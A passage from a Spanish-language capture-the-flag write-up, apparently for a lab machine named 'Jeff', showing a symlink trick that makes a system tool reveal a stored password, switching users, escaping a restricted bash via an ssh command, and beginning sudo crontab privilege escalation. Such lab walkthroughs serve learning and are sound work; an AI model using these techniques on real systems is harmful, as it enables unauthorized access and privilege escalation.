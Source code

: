 ```bash
backupmgr@tryharder:/opt/systools$ ln -s -f /var/backups/jeff.bak message.txt
```
Podemos comprobar que lo hicimos bien con ls
```bash
backupmgr@tryharder:/opt/systools$ ls -l message.txt
lrwxrwxrwx 1 backupmgr backupmgr 21 May  6 00:51 message.txt -> /var/backups/jeff.bak
backupmgr@tryharder:/opt/systools$ 
```
Volvemos a ejecutar el binario y nos da una contraseña.
```bash
backupmgr@tryharder:/opt/systools$ ./systool 
Welcome to Jeffs System Administration tool.
This is still a very beta version and some things are not implemented yet.
Please Select an option from below.
1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 2


Your Password is: 123-My-N4M3-1z-J3ff-123 


1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 
```
Migremos al usuario Jeff usando esta contraseña.
```bash
backupmgr@tryharder:/opt/systools$ su jeff
Password: 
jeff@tryharder:/opt/systools$ whoami
```
Si intentamos retroceder un directorio nos dice que permiso denegado ya que estamos en una restricted bash.
```bash
jeff@tryharder:/opt/systools$ cd ..
rbash: cd: restricted
jeff@tryharder:/opt/systools$ 
```
Esta medida la podemos burlar ya que cuando nos conectamos por ssh antes de que nos de la consola podemos ejecutar un comando por lo que le podemos poner bash y bypassear la restrited bash.
```bash
❯ ssh jeff@jeff.thm bash
jeff@jeff.thm's password: 
id
uid=1000(jeff) gid=1000(jeff) groups=1000(jeff),1002(pwman)
whoami
jeff
```
## Escalada de privelegios
Estando ya como jeff y enumeramos los privelegios que tenemos a nivel de sudoerds nos muestra que podemos ejecutar el comando crontab como cualquier usuario.
